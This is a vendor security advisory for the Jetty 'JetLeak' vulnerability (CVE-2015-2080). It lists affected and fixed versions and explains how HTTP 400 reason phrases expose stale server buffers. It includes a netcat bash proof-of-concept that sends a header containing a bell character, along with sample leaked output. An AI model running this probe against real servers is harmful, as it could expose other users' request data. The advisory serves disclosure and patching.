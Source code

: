 HttpParser Error Buffer Bleed Vulnerability
===========================================

Published Date:
---------------

2015, Feb 24

CVE:
----

CVE-2015-2080

Discovered and Reported By:
---------------------------

[Gotham Digital Science](http://www.gdssecurity.com/) and Stephen Komal.

[JetLeak Vulnerability Remote Leakage of Shared Buffers in Jetty / blogs.gdsecurity.com](http://blog.gdssecurity.com/labs/2015/2/25/jetleak-vulnerability-remote-leakage-of-shared-buffers-in-je.html)


Affected Versions of Jetty:
---------------------------

  * 9.2.3.v20140905
  * 9.2.4.v20141103
  * 9.2.5.v20141112
  * 9.2.6.v20141205
  * 9.2.7.v20150116
  * 9.2.8.v20150217
  * 9.3.0.M0
  * 9.3.0.M1

Versions of Jetty Containing Fix:
--------------------------------

  * 9.2.9.v20150224

Patched version of jetty-http.jar:
----------------------------------

Patched version of the affected jetty-http jars are available as attachments on https://bugs.eclipse.org/460642

Statement:
----------

Jetty versions 9.2.3.v20140905 through 9.2.8.v20150217 have a ByteBuffer reuse and information bleed vulnerability surrounding bad HTTP request header parsing error responses.

History:
--------

Back in Jetty 9.2.3, a feature requesting more detailed logging messages surrounding problems parsing bad HTTP request headers ( https://bugs.eclipse.org/443049 ) was implemented.

The feature request was to include better debug information in the Jetty logs (at WARN level) to help diagnose and resolve HTTP parsing errors.

However, the implementation incorrectly exposes this debug information back on the HTTP 400 response reason phrase, potentially exposing parts of server side buffers used from prior request processing on the same server.

The following bash shell script demonstrates the problem using netcat on linux against the Jetty Distribution's demo-base.

```
#!/bin/bash

RESOURCEPATH="/test/dump/info"
BAD=$'\a'

function normalRequest {
echo "-- Normal Request --"

nc localhost 8080 << NORMREQ
POST $RESOURCEPATH HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Connection: close
Content-Length: 16

Username=Joakim
NORMREQ
}

function badCookie {
echo "-- Bad Cookie --"

nc localhost 8080 << BADCOOKIE
GET $RESOURCEPATH HTTP/1.1
Host: localhost
Coo${BAD}kie: ${BAD}

BADCOOKIE
}

normalRequest
echo ""
echo ""
badCookie
```

The results are often seen in the HTTP response such as ...

```
HTTP/1.1 400 Illegal character 0x7 in state=HEADER_IN_NAME in 'GET /dummy/ HTTP/... localhost\nCoo\x07<<<kie: \x07\n\n>>>e: application/x-...\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Content-Length: 0
Connection: close
Server: Jetty(9.2.8.v20150217)
```

What you are seeing is a http response phrase that includes raw ByteBuffer details on what happened during the parsing failure.

The parts of the output are in the general form
`{what_has_been_parsed}<<<{left_to_parse}>>>{old_buffer_seen_past_limit}`

The part at `{old_buffer_seen_past_limit}` is where this exposure of past buffers comes from.  It is this information where an exploit could be made to present random prior buffers from the server buffer pool.  This information can contain anything seen in a past handled request.

We have this problem already patched in Jetty 9.2.9.v20150224, and the same test as above results in ...

```
HTTP/1.1 400 Illegal character 0x7
Content-Length: 0
Connection: close
Server: Jetty(9.2.9.v20150224)
```

Everyone is strongly encouraged to upgrade to Jetty 9.2.9.v20150224 immediately.




